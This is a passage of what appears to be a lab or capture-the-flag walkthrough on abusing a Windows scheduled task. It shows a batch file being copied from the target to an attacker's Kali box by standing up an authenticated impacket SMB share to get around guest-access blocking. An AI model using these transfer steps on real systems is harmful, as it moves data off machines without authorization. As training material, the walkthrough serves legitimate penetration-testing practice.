 ```bash
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

PS C:\Users\taskusr1> type C:\tasks\schtask.bat
whoami > c:\tasks\output.txt
ipconfig >> c:\tasks\output.txt
exit
```

```bash

```

The file did not have the right encodings

![](../../attachment/d5864ef24cef700d787198b4ec664b5d.png)

Transfer the file to kali to correct it

```bash
PS C:\tasks> copy .\schtask.bat \\10.11.19.145\s\task.bat
```

It will show the error:

```powershell
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the
network.
```

Fix this by requesting password

```bash
smbserver.py s . -smb2support -username s -password s
```

```bash
PS C:\tasks> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\tasks> copy .\schtask.bat \\10.11.19.145\s\task.bat
```

Get file info

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ file task.bat
task.bat: DOS batch file, Unicode text, UTF-16, little-endian text, with very long lines (1118), with CRLF line terminators
```
